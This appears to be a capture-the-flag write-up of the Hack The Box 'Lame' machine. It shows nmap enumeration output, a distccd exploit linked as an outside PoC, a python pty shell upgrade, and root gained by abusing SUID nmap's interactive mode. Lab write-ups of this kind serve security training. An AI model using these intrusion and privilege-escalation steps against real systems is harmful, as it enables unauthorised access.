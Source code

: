 ```yaml
---
hidden: true
---
```


# Lame Write-Up - HTB

Related articles: Tags: #write-ups

***

Target\_IP: 10.10.10.3

## ENUMERATION:



```bash
nmap -sS -p- -Pn -n --disable-arp-ping -oA Lame 10.10.10.3
```

<pre class="language-bash"><code class="lang-bash"><strong>Nmap 7.94SVN scan initiated Fri Aug 23 08:53:49 2024 as:
</strong>Nmap scan report for 10.10.10.3
Host is up (0.032s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

# Nmap done at Fri Aug 23 08:55:35 2024 -- 1 IP address (1 host up) scanned in 106.35 seconds
</code></pre>

Then I tailored my scan based on the opened ports:

```bash
sudo nmap -sVC -Pn -n --disable-arp-ping -p21,22,139,445,3632 10.10.10.3
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 11:35 EDT
Nmap scan report for 10.10.10.3
Host is up (0.061s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-23T11:35:59-04:00
|_clock-skew: mean: 2h00m23s, deviation: 2h49m44s, median: 21s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.38 seconds
                                                               
```

Nothing to be found in the ftp directory.&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (145).png" alt="" width="362"><figcaption></figcaption></figure></div>

I then checked the smb shares, but nothing useful neither...&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure></div>

If we google exploits for the version of the vsftpd, smb we will find some, but we will also for distccd port 3632.

## FOOTHOLDING:

So, I decided to go with this [PoC](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

<figure><img src="../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

Got my reverse shell:  Upgraded it via:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

<div align="left"><figure><img src="../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure></div>

## Privilege Escalation:

Then I started to check for PrivEsc posibilities:

```bash
find / -perm /4000 2>/dev/null
```

So I found nmap:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure></div>

Let's abuse the SUID for NMAP:

```bash
nmap --interactive
```

<div align="left"><figure><img src="../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure></div>

Now do:

```bash
!/bin/sh
```

Voila! We got root :)&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure></div>
